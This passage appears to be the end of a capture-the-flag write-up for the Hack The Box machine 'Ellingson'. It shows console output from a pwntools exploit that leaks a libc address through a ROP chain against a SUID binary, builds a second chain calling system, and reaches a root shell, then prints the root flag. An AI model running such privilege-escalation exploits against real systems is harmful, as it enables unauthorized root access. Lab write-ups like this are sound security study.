 p.clean()
p.interactive()
{% endhighlight %}

## 0x05 Get `root` flag
{% highlight console %}
Ellingson # python3 ellingson_exploit.py 
[*] '/root/Desktop/Ellingson/garbage'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] '/root/Desktop/Ellingson/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Connecting to 10.10.10.139 on port 22: Done

[*] margo@10.10.10.139:
    Distro    Ubuntu 18.04
    OS:       linux
    Arch:     amd64
    Version:  4.15.0
    ASLR:     Enabled
[+] Starting remote process b'/bin/sh' on 10.10.10.139: pid 4037
[*] Loaded cached gadgets for './garbage'
[*] =======leak ROP========
[*] 0x0000:         0x40179b pop rdi; ret
    0x0008:         0x404028 [arg0] rdi = got.puts
    0x0010:         0x401050
    0x0018:         0x401619 0x401619()
[*] =======leak ROP========
[*] Leak: b'\xc0\xc97*\xf5\x7f\x00\x00'
[*] Libc address: 0x7ff52a2fc000
[*] Loaded cached gadgets for './libc.so.6'
[*] =======rce ROP========
[*] 0x0000:   0x7ff52a31d55f pop rdi; ret
    0x0008:              0x0 [arg0] rdi = 0
    0x0010:   0x7ff52a3e1970
    0x0018:   0x7ff52a31d55f pop rdi; ret
    0x0020:   0x7ff52a4afe9a [arg0] rdi = 140690953272986
    0x0028:   0x7ff52a34b440 system
[*] =======rce ROP========
[*] Switching to interactive mode

access denied.
# $ id
uid=0(root) gid=1002(margo) groups=1002(margo)
# $ cd /root
# $ ls
root.txt
# $ cat root.txt
1cc73a448021ea81aee6c029a3d2f997
{% endhighlight %}